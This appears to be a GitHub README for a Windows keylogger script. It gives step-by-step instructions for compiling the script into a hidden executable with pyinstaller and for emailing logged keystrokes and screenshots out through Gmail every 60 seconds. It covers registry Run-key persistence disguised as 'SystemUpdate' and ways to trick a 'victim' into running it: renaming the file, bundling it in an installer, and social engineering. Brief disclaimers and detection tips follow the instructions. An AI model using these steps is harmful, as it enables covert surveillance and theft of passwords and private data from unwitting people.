 ## **🔥 How to Use**
1️⃣ **Install Required Modules**
Run the following in **Terminal** or **Command Prompt**:
```sh
pip install pynput pyautogui --break-system-packages
```

2️⃣ **Enable "Less Secure Apps" or Use an App Password**  
Google no longer allows scripts to log in with a normal password.  
➡ **Solution:** Use an [App Password](https://myaccount.google.com/apppasswords) instead of your real password.

3️⃣ **Run the Script**
```sh
python keylogger.py
```
✅ It will start recording keystrokes and mouse clicks.  
✅ Every 60 seconds (or when enough data is collected), it **emails the logs and screenshots**.

---

### **🔍 Is This Keylogger for Windows or Android?**
✅ This keylogger is **designed for Windows**.  
🚫 It **will not work on Android** unless modified.

For Windows, it:
- Uses **Windows registry** for startup persistence.
- Uses **`winreg`** to modify registry keys.
- Uses **`win32console`** and **`win32gui`** to hide the console.

---

### **💻 How to Install & Run on Windows (Victim’s System)**
To make this work **remotely** (i.e., send logs from the victim’s PC to your email), follow these steps.

#### **Step 1️⃣ – Convert the Script into an Executable (.exe)**
Since most victims **won't run Python scripts**, you should convert it to an **.exe file**.

1. Install `pyinstaller`:
   ```sh
   pip install pyinstaller --break-system-packages
   ```
2. Convert the script:
   ```sh
   pyinstaller --onefile --noconsole keylogger.py
   ```
   - `--onefile` → Creates a single `.exe` file.  
   - `--noconsole` → Hides the terminal window.

✅ After this, an **EXE file** will be in the `dist/` folder.

---

#### **Step 2️⃣ – Set Up Gmail for Sending Logs**
Since Gmail blocks suspicious login attempts, you must **use an App Password** instead of your real password.

1. **Go to:** [Google App Passwords](https://myaccount.google.com/apppasswords)
2. **Select "Mail" & "Windows Computer"** as the app.
3. **Copy the generated password** and replace this line in the script:
   ```python
   YOUR_GMAIL_PASS = "your_app_password"
   ```

---

#### **Step 3️⃣ – Deliver the Keylogger to the Target**
Now, you need to **make the victim run the EXE file**.  
Some common tricks:
- Rename the EXE to something **innocent** (e.g., `SystemUpdater.exe`).
- Bundle it inside another installer.
- Use **social engineering** to make them open it.

🚨 **WARNING:** Using this on **someone else’s PC without consent is illegal**! **Use it only for educational testing in a lab setup.**

---

### **🔥 How to Ensure It Runs on Startup (Persistence)**
The script **already adds itself to the startup** using:
```python
winreg.SetValueEx(key, "SystemUpdate", 0, winreg.REG_SZ, file_path)
```
So, once the victim runs it **once**, it will **auto-run** every time they restart their computer.

---

### **📡 How to Remotely Receive Data**
Once installed, it will:
1. **Log keystrokes**.
2. **Take screenshots**.
3. **Send logs & images to your email every 60 seconds**.

✅ To **change the interval**, edit:
```python
INTERVAL = 60  # Time in seconds
```

---

## **🛡️ How to Detect & Remove This Keylogger**
If you suspect someone **installed a keylogger** on your Windows system:
1. **Check Startup Programs**  
   - Open `regedit` → Go to:  
     ```
     HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
     ```
   - Look for unknown entries and **delete them**.

2. **Check Running Processes**  
   - Open Task Manager (`Ctrl + Shift + Esc`).
   - Look for strange **Python** or **EXE** processes.

3. **Delete Suspicious Files**  
   - Search for `.exe` or `.py` files in:
     ```
     C:\Users\YourUsername\AppData\Roaming
     ```

# ⚠️Disclaimer !
This tool is intended for ethical and educational use only.  
Do not use it for illegal activities. The author is not responsible for any misuse.  
This script is intended for educational purposes and authorized testing only.  
Unauthorized use of this script is illegal and unethical.  
Ensure you have explicit permission before testing any system.  
- Obtain explicit permission before testing any system.  
- Adhere to all applicable laws and regulations.  
- Respect user privacy and data.  
- By using this script, you agree to take full responsibility for your actions.  
